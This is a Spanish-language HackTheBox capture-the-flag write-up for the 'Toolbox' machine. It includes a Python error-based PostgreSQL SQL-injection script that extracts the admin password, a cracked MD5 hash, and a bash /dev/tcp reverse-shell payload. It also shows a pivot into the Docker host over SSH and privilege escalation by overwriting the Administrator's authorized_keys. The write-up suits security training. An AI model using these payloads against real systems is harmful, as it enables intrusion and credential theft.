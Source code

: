 ```yaml
---
title: HackTheBox - Toolbox
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'Default Credentials', 'SQL Injection', 'Docker Toolbox']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Toolbox/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Toolbox Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **Default Credentials, SQL Injection, Docker Toolbox**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina Toolbox**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

  ![](/assets/images/HTB/Easy/Toolbox/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

  ![](/assets/images/HTB/Easy/Toolbox/02-versions.png)

  * Conseguimos un dominio **admin.megalogistic.com** el cual añadiremos al archivo **/etc/hosts**.
  * Vemos un fichero **docker-toolbox.exe** en el servicio FTP.

c. Visitamos el dominio **https://admin.megalogistic.com**

![](/assets/images/HTB/Easy/Toolbox/03-web.png)

* Aquí intentaremos una **inyección sql** y al momento de ingresar una sentencia incorrecta veremos un mensaje el cual nos dirá que base de datos se usa

  ![](/assets/images/HTB/Easy/Toolbox/04-db.png)

* Inyecciones SQL en [PostgreSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

* Automatizamos la inyección sql basada en error con **python** para obtener la contraseña del usuario **admin**

  * Basándonos en la lógica del script y la inyección previamente obtenemos el nombre actual de la base de datos **test**, una tabla **users** y sus columnas **username,password**

    ```python
    import requests
    import string
    from pwn import *
    import sys
    import signal
    import urllib3

    def exit_handler(sig, frame) -> None:
      print("[!] Exit")
      sys.exit(1)

    def get_currentdb() -> None:
      global_string = string.ascii_letters + string.digits + string.punctuation + ' '
      main_url = "https://admin.megalogistic.com/"

      bar_1 = log.progress("Brute Force")
      bar_1.status("Starting Brute Force...")
      bar_2 = log.progress("admin password")
      headers = {"Cookie" : "PHPSESSID=[Cambiar]", "Content-Type": "application/x-www-form-urlencoded"}
      password = ""
      lenght = 0
      for index in range(1,50):
        for character in global_string:
          data = {"username":f"admin'||(select case when substring(password,{index},1)='{character}' then 1/(select 0) else NULL end from users limit 1)-- -", "password": "admin"}
          bar_1.status(data["username"])
          r = requests.post(main_url, headers=headers, data=data, verify=False)
          if('division by zero in' in r.text):
            lenght += 1
            password += character
            bar_2.status(str(lenght) + ': ' + password)
            break

    if __name__ == "__main__":
      urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
      signal.signal(signal.SIGINT, exit_handler)
      get_currentdb()
    ```


* Esta credencial está hasheada con **MD5**, la obtenemos en texto claro

  ```bash
  [>] Brute Force: admin'||(select case when substring(password,39,1)='C' then 1/(select 0) else NULL end from users limit 1)-- -
  [..../...] admin password: 42: 4a100a85cb5ca3616dcf137918550815
  
  dcode 4a100a85cb5ca3616dcf137918550815
  [+] Cracked MD5 Hash : iamzeadmin
  ```

d. Al autenticarnos estaremos en un **dashboard** en el que no vemos información relevante, con lo cual intentaremos ejecutar comandos con la inyección sql [RCE con PostreSQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce)

* Usaremos el payload

  ![](/assets/images/HTB/Easy/Toolbox/05-payload.png)

* Levantamos un servidor con **python** y enviaremos la petición con **BurpSuite**

  ![](/assets/images/HTB/Easy/Toolbox/06-burp.png)

  > A pesar de ver una error en la ejecución del comando, nos llega la petición con el **output del comando** en base64 a nuestro servidor de python.


* Nos entablaremos una reverse shell, para esto nos ponemos en escucha previamente con **nc** y enviaremos la siguiente petición con **BurpSuite**

  * El payload usado es: **`bash -c "bash -i >& /dev/tcp/<tun0 IP>/443 0>&1"`**

    ![](/assets/images/HTB/Easy/Toolbox/07-reverse.png)

    ```bash
    nc -lvnp 443
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
    ```

e. Vemos que estamos en un contenedor

```bash
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
  inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255

postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ uname -a
Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux
```

* Con la información reunida consultamos sobre **Boot2Docker** y **Docker-ToolBox**. Encontramos una forma de [autenticarnos en ssh](https://stackoverflow.com/questions/30330442/how-to-ssh-into-docker-machine-virtualbox-instance)

  ```bash
  postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
  docker@172.17.0.1's password: 
    ( '>')
    /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
  (/-_--_-\)           www.tinycorelinux.net

  docker@box:~$
  ```

### Escalada de Privilegios 💹

a. Exploramos este host

```bash
docker@box:/c/Users/Administrator$ ls -al                                      
total 1613
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 .
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 ..
drwxrwxrwx    1 docker   staff         4096 Aug 28 15:13 .VirtualBox
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 .docker
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 .ssh
```

* Encontramos un directorio **.ssh** en el que podemos meter nuestra clave pública **authorized_keys**

  ```bash
  docker@box:/c/Users/Administrator/.ssh$ ls                                     
  authorized_keys  id_rsa           id_rsa.pub       known_hosts
  ```

* Generemos un par de claves en nuestra **Máquina Atacante**

  ```bash
  ❯ ssh-keygen
  ❯ ls
  id_rsa   id_rsa.pub
  ```

* Copiamos la clave **id_rsa.pub** en el archivo **authorized_keys** del host docker

  ```bash
  docker@box:/c/Users/Administrator/.ssh$ echo -n 'id_rsa.pub' > authorized_keys
  ```

b. Ya con esto podemos acceder como **administrator** en el servicio SSH

```bash
root@kali~/.ssh> ssh administrator@10.10.10.236

Microsoft Windows [Version 10.0.17763.1039] 
administrator@TOOLBOX C:\Users\Administrator>
```